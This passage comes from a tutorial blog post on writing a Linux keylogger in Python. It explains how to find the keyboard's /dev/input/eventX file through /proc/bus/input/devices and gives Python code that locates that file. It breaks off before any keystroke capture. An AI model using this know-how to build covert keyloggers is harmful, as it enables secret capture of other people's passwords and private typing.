```bash
cat /proc/bus/input/devices
```

This file describes the devices connected to the machine. It seems to be the right place to find out what we are looking for and which event our keyboard is referring to. You can find below a screenshot of the command output in my machine.

![Want to Create a Linux Keylogger Using Python? Here's How!](https://neoslab.com/uploads/medias/2020/02/want-to-create-a-linux-keylogger-using-python-here-s-how-2.png "Want to Create a Linux Keylogger Using Python? Here's How!")

Each section on the file is referring to a device connected to the machine. Once you find the **keyboard** device section, focus on the line "H: Handlers" to catch the **eventX** id.

**How can we be sure that it's the correct keyboard event?**

To be sure that you did find the correct **eventX**, you must refer to the line "`B: EV =*`". This line describes the type of events sent. Whatever the king of machine we are using, a keyboard will always return "`EV = 120013`". So considering this and as my example, I can be sure that my keyboard is referring to as **event4**.

So now that we have our devices and we know in which file they write their stream, let move to the next step.

* * *

### Implement The Keylogger In Python

#### Find The Keyboard

We will start by automating what we saw just before to find the right event file. The easiest way is to use regular expressions.

```bash
with open("/proc/bus/input/devices") as f:
    lines = f.readlines()
    pattern = re.compile("Handlers|EV=")
    handlers = list(filter(pattern.search, lines))
    pattern = re.compile("EV=120013")
    for idx, elt in enumerate(handlers):
        if pattern.search(elt):
            line = handlers[idx - 1]
    pattern = re.compile("event[0-9]")
    infile_path = "/dev/input/" + pattern.search(line).group(0)
```

The above piece of code has for the function to open the file **/proc/bus/input/devices**, read it line by line and find simultaneously the lines of the Handlers (Where we find the event id) and the lines of the EV (Where we find the type of events).

It will return a list which should look like : \[eventX, type, eventX, type, eventX, type, eventX, type, …\]

It only remains to find the type that matches the keyboard (Where we have "EV = 120013") and choose the column before in the list which is the keyboard **eventX**.

**Step two: Pump Everything Up**
